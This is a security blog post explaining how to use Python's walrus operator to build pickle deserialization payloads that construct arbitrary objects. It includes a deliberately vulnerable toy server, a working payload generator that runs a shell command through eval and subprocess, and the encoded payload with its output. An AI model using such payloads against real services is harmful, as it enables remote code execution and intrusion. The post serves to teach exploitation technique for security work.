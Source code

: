 ```yaml
---
layout: post
title: "Simpler unpickle payloads with the walrus operator"
date: 2022-01-07 01:00
type: post
published: true
comments: true
categories: software
---
```


When exploiting Python deserialization, specifically, Pickle, vulnerabilities you need to craft a payload consisting of a collecetion of arguments and a callable that is available on the server. Most commonly you can use the `eval` function and a string to be evaluated. This is fairly flexible and from here you can typically import the `os` module and call `os.system` to do whatever you want. Sometimes there can be some limitations in place, for example, you might not get the output of the directly and it might be blocking outbound connections preventing reverse shells. In some situations you need the result of the unpcikle operation to return an object with specific properties. If you are lucky and convenient classes exist on the target and you have knowledge of them you might get away with simply constructing one of them. If this is not the case it is slightly trickier.

A big issue is that `eval` only evaluates a single expression so you can't declare your own classes since that is a statement, not an expression. With the introduction of the new walrus operator in Python, this is now much easier since we can now perform assignments as an expression. The key idea is that we can create a tuple where each element in the tuple can access items which have been assigned in a previous element. For example, this is a valid Python expression which will evaluate to `2`.

{% highlight python %}
(a:=1, b:=a+a, b)[-1]
{% endhighlight %}

We can use the same pattern to construct completely arbitrary objects. As a toy example, let's say you have a server like this which takes some input and unpickles it:

{% highlight python %}
#!/usr/bin/env python3

import base64
import pickle

class Item(object):
    def __init__(self, text):
        self.text = text

    def process(self):
        return self.text.upper().encode()

while True:
    try:
        b64data = input('Pickled object: ')
        data = base64.b64decode(b64data)
        item = pickle.loads(data)
        res = item.process()
        print(f'Result: {res.decode()}')
    except KeyboardInterrupt:
        print('Exiting') 
        break
    except Exception as e:
        print(f'An error occurred while processing data: {e}')
{% endhighlight %}

Let's pretend that we do not get any stdout data from the unpickling and that not outbound conmnections are allowed so a reverse shell won't do. Note that the unpickled object needs to have a `.process()`method which returns something which we can call `.decode()` on which in turn should return a string. We can then use the following code to craft such a payload:

{% highlight python %}
#!/usr/bin/env python3

import base64
import pickle

class Payload(object):
    def __reduce__(self):
        return eval, ('(a:=type("A", (object,), {}),b:=a(),b.__setattr__("process", lambda: __import__("subprocess").check_output("id")),b)[-1]',)

payload = Payload()
payload = base64.b64encode(pickle.dumps(payload)).decode()
print(payload)
{% endhighlight %}

The key element here is the Python expression:

{% highlight python %}
(
    a:=type("A", (object,), {}),
    b:=a(),
    b.__setattr__("process",
        lambda: __import__("subprocess").check_output("id")
    ),
    b
)[-1]
{% endhighlight %}

The first element of the tuple creates a new type called `A` and assigns it to `a`. We then instantiate an object of this type in variable `b`. We then set the `.process` attribute of this object to be a function which will call the `id` command and return the output. Finally we put the object itself as the last element of the tuple and use the `[-1]`indexing operation to extract our crafted object. Running this code and providing it as input to our server results in the following:

```
Pickled object: gASVlAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIx4KGE6PXR5cGUoIkEiLCAob2JqZWN0LCksIHt9KSxiOj1hKCksYi5fX3NldGF0dHJfXygicHJvY2VzcyIsIGxhbWJkYTogX19pbXBvcnRfXygic3VicHJvY2VzcyIpLmNoZWNrX291dHB1dCgiaWQiKSksYilbLTFdlIWUUpQu
Result: uid=1000(zetatwo) gid=1000(zetatwo) groups=1000(zetatwo)
```

I hope this little trick come in handy whenever you are dealing with Python unpickle vulnerabilities.
